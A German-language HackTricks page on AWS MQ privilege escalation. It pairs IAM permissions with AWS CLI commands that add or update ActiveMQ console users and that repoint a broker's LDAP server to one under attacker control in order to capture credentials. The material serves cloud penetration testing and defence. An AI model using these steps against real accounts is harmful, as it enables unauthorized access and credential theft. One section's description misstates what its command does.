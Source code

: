 # AWS - MQ Privilege Escalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## MQ

Für weitere Informationen zu MQ siehe:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Mit diesen Berechtigungen können Sie **einen neuen Benutzer in einem ActimeMQ-Broker erstellen** (dies funktioniert nicht bei RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Informationen durch Navigieren durch ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Mit diesen Berechtigungen können Sie **einen neuen Benutzer in einem ActimeMQ-Broker erstellen** (dies funktioniert nicht bei RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potenzielle Auswirkungen:** Zugriff auf sensible Informationen durch Navigieren durch ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Wenn ein Broker **LDAP** zur Autorisierung mit **ActiveMQ** verwendet, ist es möglich, die **Konfiguration** des LDAP-Servers zu **ändern**, der **von dem Angreifer kontrolliert wird**. Auf diese Weise kann der Angreifer **alle Anmeldeinformationen stehlen, die über LDAP gesendet werden**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Wenn Sie die ursprünglichen Anmeldeinformationen von ActiveMQ finden könnten, könnten Sie einen MitM durchführen, die Anmeldeinformationen stehlen, sie im Originalserver verwenden und die Antwort senden (vielleicht könnten Sie dies einfach tun, indem Sie die gestohlenen Anmeldeinformationen wiederverwenden).

**Potenzielle Auswirkungen:** Anmeldeinformationen von ActiveMQ stehlen

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>
